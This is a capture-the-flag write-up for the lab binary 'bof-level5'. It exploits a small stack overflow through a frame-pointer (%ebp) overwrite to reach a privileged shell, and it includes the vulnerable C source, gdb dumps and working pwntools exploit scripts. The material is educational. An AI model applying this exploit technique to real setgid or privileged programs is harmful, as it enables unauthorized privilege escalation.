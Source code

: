 # Basic Analysis
```c
void get_a_shell() {
    printf("Spawning a privileged shell\n");
    setregid(getegid(), getegid());
    execl("/bin/bash", "bash", NULL);
}

void receive_input() {
    char buf[120];
    read(0, buf, 132);
}

int run() {
    printf("Now the program contains a buffer overflow vulnerability,\n");
    printf("but the vulnerability does not allow us to overwrite the return address...\n");
    printf("Can you exploit this program?\n");
    receive_input();
}

int main() {
    run();
}
```
Looking at the source code, we have a buffer overflow (reading 132 bytes into a 120 byte buffer), but it also says that we can't overflow 
the return address. This is quickly verified by trying. 

```
$ ./bof-level5
Now the program contains a buffer overflow vulnerability,
but the vulnerability does not allow us to overwrite the return address...
Can you exploit this program?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

Fortunately, we have two returns happening, one from `receive_input()` and the other from `run()`. This opens it up to a frame
pointer attack. 

When multiple returns happen, we are able to manipulate %ebp and %esp to create our own stack frame that can then return to `get_a_shell()`. 
In order to do this, we overwrite %ebp with the address of our buffer, and we write the address of `get_a_shell()` into `buffer+4`. 

```gdb
Dump of assembler code for function receive_input:
   0x08049214 <+0>:     push   %ebp
   0x08049215 <+1>:     mov    %esp,%ebp
   0x08049217 <+3>:     push   %ebx
   0x08049218 <+4>:     sub    $0x84,%esp
   0x0804921e <+10>:    call   0x80492b5 <__x86.get_pc_thunk.ax>
   0x08049223 <+15>:    add    $0x2ddd,%eax
   0x08049228 <+20>:    sub    $0x4,%esp
   0x0804922b <+23>:    push   $0x84
   0x08049230 <+28>:    lea    -0x80(%ebp),%edx
   0x08049233 <+31>:    push   %edx
   0x08049234 <+32>:    push   $0x0
   0x08049236 <+34>:    mov    %eax,%ebx
   0x08049238 <+36>:    call   0x8049050 <read@plt>
   0x0804923d <+41>:    add    $0x10,%esp
   0x08049240 <+44>:    nop
   0x08049241 <+45>:    mov    -0x4(%ebp),%ebx
   0x08049244 <+48>:    leave  
   0x08049245 <+49>:    ret
```
Looking at the assembly, we can see that our buffer is at ebp-0x80. We can set up a test string to verify the size of our buffer. 

```py
string = 'aaaaAAAA' + 'a' * (0x80 - 8) + 'DDDD'
```
```gdb
pwndbg> x/40x $esp
0xffffd400:     0x00000000      0xffffd418      0x00000084      0x08049223
0xffffd410:     0x0804d1a0      0x0804a0bb      0x61616161      0x41414141
0xffffd420:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd430:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd440:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd450:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd460:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd470:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd480:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd490:     0x61616161      0x61616161      0x44444444      0x08049293
pwndbg> p $ebp-0x80
$1 = (void *) 0xffffd418
pwndbg> x $ebp
0xffffd498:     0x44444444
pwndbg> x $ebp-0x80+4
0xffffd41c:     0x41414141
````
From this, we know that the general shape of our string will be `'aaaa' + p32(get_a_shell_addr) + 'a' * 120 + p32(buffer_addr)` and we can work on getting those addresses. 

```gdb
pwndbg> info function get_a_shell
All functions matching regular expression "get_a_shell":

Non-debugging symbols:
0x080491b6  get_a_shell

pwndbg> p $ebp-0x80
$1 = (void *) 0xffffd418
```

So now we can finish our script:
```py
#!/usr/bin/python3

from pwn import *

p = process('./bof-level5')

gas_addr = 0x080491b6
buf_addr = 0xffffd418 # ebp-0x80

string = b'aaaa' + p32(gas_addr) + b'a' * (0x80 - 8) + p32(buf_addr)

p.sendline(string)

p.interactive()
```
And run it
```
./p.py
[+] Starting local process './bof-level5': pid 1113926
[*] Switching to interactive mode
Now the program contains a buffer overflow vulnerability,
but the vulnerability does not allow us to overwrite the return address...
Can you exploit this program?
[*] Got EOF while reading in interactive
$  cat flag
[*] Process './bof-level5' stopped with exit code -11 (SIGSEGV) (pid 1113926)
[*] Got EOF while sending in interactive
```
Except... it doesn't work. 

# Debugging
In order to figure out what's going wrong, we need to look at gdb after pwntools sends the line. We can do this by adding just a little
to the script

```py
context.terminal = ['tmux', 'splitw', '-h']

gdb.attach(p, '''
set follow-fork-mode child
break execve
break *0x0804923d # receive_input+41 -- right after the read
continue
''')
```

We can also make sure that we weren't just copying our addresses incorrectly by using the core files and getting `get_a_shell`'s address straight from the ELF. 
```py
e = ELF('./bof-level5')
get_a_shell = e.symbols['get_a_shell']

buf = b'a' * 0x84
c = Core('./core.1077027')

buffer_addr = c.stack.find(buf)
```
When we run this, gdb isn't able to properly connect. THis is because the binary is owned by a different user on the system. 
To get around this, I copied the binary into my own folder, naming it `bof-levelx`. Trying again, but with a process we have more control over:
```gdb
pwndbg> x/40x $esp
0xffffc470:     0x00000000      0xffffc488      0x00000084      0x08049223
0xffffc480:     0x0804d1a0      0x0804a0bb      0x61616161      0x080491b6
0xffffc490:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4a0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4b0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4c0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4d0:     0x61616161      0x61616161      0x61616161      0x61616161```
0xffffc4e0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4f0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc500:     0x61616161      0x61616161      0xffffd478      0x08049293
pwndbg> x $ebp-0x80+4
0xffffc48c:     0x080491b6
pwndbg> p $ebp
$1 = (void *) 0xffffc508
pwndbg> p $ebp-0x80
$2 = (void *) 0xffffc488
```
And here we see the problem. %ebp was not overwritten with the correct address. Why, I'm not entirely sure. However, if we  
change the script so that it runs with `0xffffc488` it works. 

# Full Script + Solve
```py
#!/usr/bin/python3

from pwn import *

p = process('./bof-level5')

e = ELF('./bof-level5')
get_a_shell = e.symbols['get_a_shell']

buffer_addr = 0xffffc488

string = b'aaaa' + p32(get_a_shell) + b'a' * 120 + p32(buffer_addr)

p.sendline(string)

p.interactive()

```

```
$ ./p.py
[+] Starting local process './bof-level5': pid 1112043
[*] '/home/sawyeras/week2/bof-level5/bof-level5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
Now the program contains a buffer overflow vulnerability,
but the vulnerability does not allow us to overwrite the return address...
Can you exploit this program?
Spawning a privileged shell

$ cat flag
cand{l3avE_p0pS_EBP}
```



